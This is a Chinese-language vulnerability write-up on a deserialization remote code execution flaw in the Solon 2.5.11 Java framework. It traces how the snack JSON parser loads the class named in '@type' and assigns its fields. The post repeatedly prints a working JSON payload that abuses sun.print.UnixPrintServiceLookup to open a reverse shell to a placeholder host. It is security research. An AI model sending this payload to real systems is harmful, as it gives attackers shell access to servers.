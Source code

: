 # Solonv2.5.11-RCE

  
  
&lt;!--more--&gt;  
## 0x00 环境搭建  
https://solon.noear.org/start/build.do?artifact=helloworld_jdk8&amp;project=maven&amp;javaVer=1.8  
pom.xml  
```xml  
&lt;groupId&gt;org.noear&lt;/groupId&gt;    
&lt;artifactId&gt;solon-parent&lt;/artifactId&gt;    
&lt;version&gt;2.5.11&lt;/version&gt;  
```  
## 0x01 漏洞复现  
漏洞触发条件很简单，只要有接收参数的任意路由。  
但必须是 Linux&amp;&amp;jdk 环境下启动  
POC  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  
## 0x02 漏洞分析  
solon 是如何处理 json 数据的参数绑定的呢？  
直接在这里下个断点看调用栈  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171549021.png)
在`org.noear.solon.core.handle.ActionExecuteHandlerDefault#executeHandle`这里调用执行了`mWrap.invokeByAspect(obj, args.toArray());`调用了自定义的`com.example.demo.DemoController#hello`方法，而在上面`buildArgs(ctx, obj, mWrap);`用来进行参数绑定  
跟进这个参数绑定的方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171552806.png)
`buildArgs`中会对接收到的数据进行`changeBody`处理  
当传入 JSON 数据时就会做一个 JSON 解析，得到一个 ONode 对象  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171553604.png)
回到`buildArgs`则是对 hello 路由方法的参数取得类型，并根据类型做相应的处理后续来到`this.changeValue`这里  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171555181.png)
跟入其中，有一些判断，检验是否有 hello 方法对应的参数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171556793.png)
继续跟进来到`toObject`方法中，一直跟进到`org.noear.snack.to.ObjectToer#analyse`方法，这里会对ONode 对象做一些特殊处理。  
这里有两个点，传入的 JSON 是`{&#34;name&#34;:&#34;world&#34;}`，所以正常流畅会走到字符串处理，`clz`的值为`java.lang.String`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171602637.png)
假如我们传入一个 Object 呢？  
`{&#34;name&#34;:{}}`  
会直接进入到`clz = getTypeByNode(ctx, o, clz);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171605652.png)
跟进这里，在`org.noear.snack.to.ObjectToer#getTypeByNode`方法中，类型为`Object`时，会取其中键值为`@type`的值来进行一个类的加载  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171609106.png)
这里赋值一个类  
`{&#34;name&#34;:{&#34;@type&#34;:&#34;sun.print.UnixPrintServiceLookup&#34;}}`  
成功进行了类加载  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171615874.png)
继续看怎么处理这个 clz 的  
在一个`switch case`之后，会来到一个 Object 的处理位置，直接来到最后`analyseBean(ctx, o, rst, clz, type, genericInfo);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171617317.png)
跟进查看，发现对上面获取到的`clz`进行了实例化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171618673.png)
后续判断了传入的对象是否有对应属性的值，如果存在则会进行一个赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171620811.png)
赋值这里关键是看目标类中有哪些属性，不同于 fastjson 这里赋值并不会调用对象的`setter`或`getter`方法  
这里目标类的获取首先是从缓存中获取，  
```java  
ClassWrap clzWrap = ClassWrap.get(clz);  
```  
跟进这里，在构造函数中会调用`scanAllFields(clz, map::containsKey, map::put);`对目标类进行一个扫描  
```java  
private void scanAllFields(Class&lt;?&gt; clz, Predicate&lt;String&gt; checker, BiConsumer&lt;String, FieldWrap&gt; consumer) {    
    if (clz == null) {    
        return;    
    }    
    
    for (Field f : clz.getDeclaredFields()) {    
        int mod = f.getModifiers();    
    
        if (!Modifier.isStatic(mod)    
                &amp;&amp; !Modifier.isTransient(mod)) {    
    
            if(_isMemberClass &amp;&amp; f.getName().equals(&#34;this$0&#34;)){    
                continue;    
            }    
    
            if (checker.test(f.getName()) == false) {    
                _recordable &amp;= Modifier.isFinal(mod);    
                consumer.accept(f.getName(), new FieldWrap(clz, f, Modifier.isFinal(mod)));    
            }    
        }    
    }    
    
    Class&lt;?&gt; sup = clz.getSuperclass();    
    if (sup != Object.class) {    
        scanAllFields(sup, checker, consumer);    
    }    
}  
```  
最终获取到的 Field 是目标类中的非静态变量  
继续看，是怎么对我们所创建的对象进行赋值的  
```java  
for (FieldWrap f : clzWrap.fieldAllWraps()) {    
    if (f.isDeserialize() == false) {    
        continue;    
    }    
    String fieldK = f.getName();    
    
    if (excNames != null &amp;&amp; excNames.contains(fieldK)) {    
        continue;    
    }    
    
    
    if (o.contains(fieldK)) {    
        Class fieldT = f.type;    
        Type fieldGt = f.genericType;    
    
        if (f.readonly) {    
            analyseBeanOfValue(fieldK, fieldT, fieldGt, ctx, o, f.getValue(rst), genericInfo);    
        } else {    
    
    
            Object val = analyseBeanOfValue(fieldK, fieldT, fieldGt, ctx, o, f.getValue(rst), genericInfo);    
    
            if (val == null) {    
                //null string 是否以 空字符处理    
                if (ctx.options.hasFeature(Feature.StringFieldInitEmpty) &amp;&amp; f.type == String.class) {    
                    val = &#34;&#34;;    
                }    
            }    
    
            f.setValue(rst, val, disSetter);    
        }    
    }    
}  
```  
给一个值，继续跟入  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  
进入`f.setValue(rst,val,disSetter)`，这里处理逻辑也很简单，有对应的`setter`则用对应的`setter`进行赋值，没有则使用反射进行赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171637153.png)
这里并不能用`fastjson`的`payload`直接打，因为赋值的前提条件是目标对象必须要有对应的字段才可以。  
所以这里选择的是`sun.print.UnixPrintServiceLookup`这个类，最后RCE的地方  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171641615.png)
[sun.print.UnixPrintServiceLookup利用](https://xz.aliyun.com/t/12818)  
所以最终 payload 就是  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/solonv2.5.11-rce/  


